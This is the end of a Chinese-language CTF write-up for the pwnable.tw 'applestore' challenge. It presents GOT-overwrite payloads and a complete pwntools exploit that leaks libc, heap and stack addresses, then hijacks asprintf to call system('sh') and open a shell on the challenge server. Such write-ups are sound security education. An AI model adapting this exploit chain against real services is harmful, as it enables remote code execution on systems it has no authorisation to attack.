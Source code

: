 故构造以下payload均可：

```python
payload = '2\x00'+p32(myelf.got['puts'])+p32(1)+p32(ebp-0xc)+p32(myelf.got['asprintf']+0x22)
payload = '2\x00'+p32(myelf.got['puts'])+p32(1)+p32(myelf.got['asprintf']+0x22)+p32(ebp-0x8)
```

然后即可以按上图覆盖GOT表，以下payload均可：

```python
payload = 'sh\x00\x00'+p32(libc_addr+libc.symbols['system'])
payload = '$0\x00\x00'+p32(libc_addr+libc.symbols['system'])
```

`system("$0")和system("sh")`均可getshell，因为利用system函数执行是可以利用shell的环境变量的，最终完整exp如下：

### 完整exp

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')
myelf = ELF('applestore')
libc = ELF("./libc_32.so.6")
io = remote("chall.pwnable.tw",10104)
add = '2';delete='3';cart='4';checkout='5'

def action(num,payload):
    io.sendlineafter('> ',num)
    io.sendlineafter('> ',payload)
for i in range(6):
    action(add,'1')
for i in range(20):
    action(add,'2')

action(checkout,'y')
payload = 'y\x00'+p32(myelf.got['puts'])+p32(1)+p32(0x0804B070)+p32(1)
action(cart,payload)
io.recvuntil('27: ')
libc_addr = u32(io.recv(4))-libc.symbols['puts']
io.recvuntil('28: ')
heap_addr = u32(io.recv(4))-0x490
payload = 'y\x00'+p32(heap_addr+0x8b0)+p32(1)+p32(0x0804B070)+p32(1)
action(cart,payload)
io.recvuntil('27: ')
ebp = u32(io.recv(4))+0x20
for i in range(25):
    action(delete,'1')
#payload = '2\x00'+p32(myelf.got['puts'])+p32(1)+p32(ebp-0xc)+p32(myelf.got['asprintf']+0x22)
payload = '2\x00'+p32(myelf.got['puts'])+p32(1)+p32(myelf.got['asprintf']+0x22)+p32(ebp-0x8)
action(delete,payload)
payload = 'sh\x00\x00'+p32(libc_addr+libc.symbols['system'])
io.sendlineafter("> ",payload)

io.interactive()
```
